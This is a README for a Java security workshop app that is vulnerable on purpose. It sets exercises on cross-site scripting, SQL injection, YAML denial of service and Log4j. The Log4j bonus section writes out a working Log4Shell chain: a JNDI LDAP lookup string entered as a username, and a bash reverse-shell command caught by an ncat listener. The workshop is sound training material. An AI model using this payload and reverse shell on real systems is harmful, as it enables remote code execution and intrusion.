

# DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
- Username: `admin`
- Password: `foobar`

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.


### 1a Try to create an alert loading the page
- [Hint 1](hints/xss/hint1.md)
- [Hint 2](hints/xss/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/xss/hint3.md)
- [Hint 4](hints/xss/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/xss/hint5.md)
- [Hint 6](hints/xss/hint6.md)
- [Hint 7](hints/xss/hint7.md)


## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`


### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.



### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)


## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```


If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.


Play around as you now have remote access to this machine by leveraging a remote code execution.


